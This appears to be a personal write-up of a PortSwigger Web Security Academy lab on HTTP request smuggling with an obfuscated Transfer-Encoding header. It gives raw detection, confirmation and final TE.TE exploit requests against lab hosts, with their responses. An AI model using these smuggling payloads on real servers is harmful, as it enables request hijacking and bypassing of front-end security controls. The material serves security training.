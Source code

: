 https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header

# Detection
![[Detection HTTP Request Smuggling.png]]
Detecting Front-end 
``` HTTP
POST / HTTP/1.1
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X

```
Got: 
```HTTP
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 27

{"error":"Invalid request"}
```
What is happening:
![[Invalid Chunk SIze.png]]
Frontend is using TE

Detecting what the backend is using

```HTTP
POST / HTTP/1.1
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X

```
Got a **200 OK**
What is happening:
![[TE TE Detection.png]]

![[TE Header Obfuscations.png]]Add a second malformed Transfer-Encoding. 
```HTTP
POST / HTTP/1.1
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: x

0

X

```
![[TE Obfuscation visual.png]]
Causes the backend to timeout and **500 Internal Server Error**

# Confirming
Now we can exchange the lab to a TE.CL vulnerability.
```HTTP
POST / HTTP/1.1
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked
Transfer-Encoding: x

1
G
0


```
>**200 OK**

Immediately send a normal request:
```HTTP
POST / HTTP/2
Host: 0a8300d803e4d2088a266c310091008d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

foo=bar

```
Got **"Unrecognized method G0POST"**
![[TE.TE confirmation.png]]


# Crafting the exploit request

#### Updating the Content-Length of the smuggled request

Determining the minimum value for the smuggled request. 
>Adding one (+1) to the smugled request body so it can append to normal request.

![[Pasted image 20250818135755.png]]

#### Fixing the Chunk Size
![[Pasted image 20250818140740.png]]

#### Fixing the first Content-Length
![[Pasted image 20250818141150.png]]

# Exploiting
```HTTP
POST / HTTP/1.1
Host: 0a3400f70367a7d68109ed3b007e009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

5c
GPOST / HTTP/1.1
Content-Length: 11
Content-Type: application/x-www-form-urlencoded

x=1
0


```
**200 OK**

Immediately send the normal request:
```
POST / HTTP/2
Host: 0a3400f70367a7d68109ed3b007e009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

foo=bar
```
Got the **"Unrecognized method GPOST"**

[Explained](https://www.youtube.com/watch?v=TUsc14YH6LE&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=3&ab_channel=JarnoTimmermans)